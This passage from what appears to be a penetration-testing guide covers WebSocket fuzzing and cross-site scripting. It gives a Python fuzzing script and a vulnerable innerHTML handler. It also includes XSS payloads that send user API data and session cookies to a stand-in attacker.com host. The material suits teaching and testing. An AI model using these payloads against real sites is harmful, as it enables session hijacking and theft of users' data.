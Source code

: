     - **Fuzzing WebSocket messages**
      - Automated testing with various inputs
      - Use tools like Burp Intruder or custom scripts
      - Example fuzzing script (Python):
        ```python
        import websocket
        import json
        
        payloads = ["'", "''", "\"", "<script>", "../../", ...]
        
        def test_payloads():
            ws = websocket.create_connection("ws://example.com/socket")
            for payload in payloads:
                message = {"search": payload, "action": "query"}
                ws.send(json.dumps(message))
                result = ws.recv()
                print(f"Payload: {payload}, Result: {result}")
            ws.close()
        ```
  
  - **Cross-site scripting (XSS) via WebSockets**
    
    - **Identifying XSS vulnerabilities**
      - Look for WebSocket messages that influence DOM content
      - Analyze how received messages are processed by client-side code
      - Test with simple XSS payloads:
        ```json
        {"message":"<img src=x onerror=alert(document.domain)>"}
        ```
    
    - **DOM-based XSS exploitation**
      - Identify vulnerable JavaScript that processes WebSocket data
      - Example vulnerable code:
        ```javascript
        socket.onmessage = function(event) {
            const data = JSON.parse(event.data);
            document.getElementById('messages').innerHTML += data.message;
        }
        ```
      - Craft payload to exploit innerHTML assignment:
        ```json
        {"message":"<img src=1 onerror='fetch(\"/api/user\").then(r=>r.json()).then(d=>fetch(\"https://attacker.com/steal?data=\"+btoa(JSON.stringify(d))))'>"}
        ```
    
    - **Persistent XSS via WebSockets**
      - Send malicious content that gets stored and broadcast to other users
      - Example attack flow:
        ```
        1. Send malicious message via WebSocket
        2. Server stores message
        3. Message is broadcast to all connected clients
        4. XSS payload executes in victims' browsers
        ```
      - Example payload for chat application:
        ```json
        {"action":"sendMessage", "room":"general", "message":"<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>"}
        ```
  